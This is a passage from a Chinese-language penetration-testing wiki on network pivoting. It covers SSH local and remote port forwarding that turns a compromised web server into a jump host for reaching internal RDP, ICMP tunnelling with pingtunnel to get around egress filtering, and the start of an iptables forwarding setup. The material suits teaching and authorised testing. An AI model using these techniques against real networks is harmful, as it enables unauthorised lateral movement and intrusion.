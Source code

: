 #### Linux SSH隧道（高权限用）

SSH一般是允许通过防火墙的，而且传输过程是加密的

> 测试环境如下图，VPS可访问Web服务器，但不能访问内网其它机器，Web服务器可访问内网其它机器。
>
> 目标：以Web服务器为跳板访问内网其它机器。

![](https://wiki.wgpsec.org/images/image-20200619231457834.png)

**本地转发**

在`VPS（黑客）`上执行以下命令

```bash
ssh -CfNg -L 1153（VPS端口）:10.1.1.3（目标主机）:3389（目标端口）
root@192.168.0.3（跳板机，Web服务器，会要求输入密码）

#查看1153端口是否已经连接
netstat -tulnp | grep "1153"

#连接目标数据库服务器的远程桌面
rdesktop 127.0.0.1:1153
```

SSH进程的本地端口映射，将本地端口转发到远端指定机器的指定端口；

本地端口转发是在本地监听一个端口，所有访问这个端口的流量都会通过SSH隧道传输到远端的对应端口。

**远程转发**

&#x20;在`Web服务器`上执行如下命令

```bash
ssh -CfNg -R 1122（VPS端口）:10.1.1.3（目标主机，数据库）:3389（目标端口） root@192.168.0.5(VPS的IP)
```

访问`VPS`的1122端口，即可连接内网数据库服务器的3389

```bash
rdesktop 127.0.0.1:1122
```

所有访问`VPS`的1122端口的流量都会通过SSH隧道传输到数据库服务器的3389端口

#### ICMP隧道

项目地址：[https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel)

适用场景 ：特殊环境下icmp流量允许出网

实现原理：客户端将TCP流量封装成icmp，然后发送给服务端，服务端再从ICMP包解析出正常TCP流量最后发向目标

![](https://wiki.wgpsec.org/images/image-20200613145026593.png)

#### iptables正向端口转发

1、编辑配置文件

```bash
vi /etc/sysctl.conf
	net.ipv4.ip_forward = 1#开启IP转发
```
